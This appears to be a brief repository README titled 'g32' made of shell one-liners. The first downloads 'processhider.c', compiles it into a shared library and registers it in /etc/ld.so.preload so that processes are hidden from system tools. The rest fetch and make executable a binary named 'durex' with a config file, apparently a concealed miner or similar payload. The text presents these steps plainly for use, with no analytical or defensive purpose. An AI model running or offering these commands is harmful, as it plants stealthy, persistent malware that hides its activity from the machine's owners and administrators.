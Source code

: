 # g32

wget https://raw.githubusercontent.com/cihuuy/libn/master/processhider.c && apt install gcc -y && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload

#

wget https://raw.githubusercontent.com/bulboni/g32/main/durex \
&& wget https://raw.githubusercontent.com/bulboni/g32/main/config.json \
&& chmod +x durex
